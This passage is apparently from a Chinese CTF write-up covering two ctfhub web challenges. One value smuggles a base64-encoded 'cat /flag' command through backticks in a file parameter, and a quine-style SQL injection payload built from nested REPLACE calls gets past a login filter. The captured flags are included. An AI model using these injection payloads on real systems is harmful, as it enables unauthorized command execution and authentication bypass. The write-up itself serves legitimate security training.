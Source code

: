 ```
var
```

根据同样的方法，shell `cat /flag_28244`

```
file=| `echo Y2F0IC9mbGFnXzI4MjQ0 | base64 -d` > 879550a80023144a9b58dcc288f3f4f3.png
```

再次访问这个图片就可以得到base64加密的flag![image9f3eac424c54a0c5.png](https://z4a.net/images/2022/06/01/image9f3eac424c54a0c5.png)

解密得到flag![image6efb429399936ca0.png](https://z4a.net/images/2022/06/01/image6efb429399936ca0.png)

```
ctfhub{d7032802097b5eb927bc3b73}
```

# yet_another_mysql_injection
- SQL注入
- 代码审计

首先进去之后是个登录框，查看源码得到提示![image.png](https://z4a.net/images/2022/06/02/image.png)

![imageb0049ad14b1c9554.png](https://z4a.net/images/2022/06/02/imageb0049ad14b1c9554.png)

访问`/?source`得到源码![image2e7cc021c9235c9c.png](https://z4a.net/images/2022/06/02/image2e7cc021c9235c9c.png)

通过审计之后发现通过`if ($username !== 'admin')`限制了用户名为`admin`，同时输入的密码会进入`checkSql`这个函数里面，不难发现这个函数机型正则匹配，过滤了`/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i`，大小写都过滤了

> `if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '')同时在这里，对输入的密码和sql查询得密码进行了判断。`

过程就是判断用户名是否为admin->密码进行checkSql函数检测->用户名和密码带入数据库进行密码查询->查询后的值不能为空->查询后的值需要和你输入的值一样。

> 介绍一下replace函数的作用。语法：replace(object,search,replace)、语义：把object对象中出现的的search全部替换成replace。实例：select replace('abc','b','123')。最终结果为a123c

这道题就是使用replace函数进行绕过，payload如下:

```
1'UNION(SELECT(REPLACE(REPLACE('1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#',CHAR(34),CHAR(39)),CHAR(37),'1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#')))#
```

> 这里使用了两次replace函数，把1'UNION(SELECT(REPLACE(REPLACE('1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#看成整体更容易理解，这个就相当于先把“替换成‘，然后再把%替换成1'UNION(SELECT(REPLACE(REPLACE('1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#

经过这两次替换，得到的值就和2输出的值一样了。

```
ctfhub{f80e6d849c2202aa2aa253ef}
```
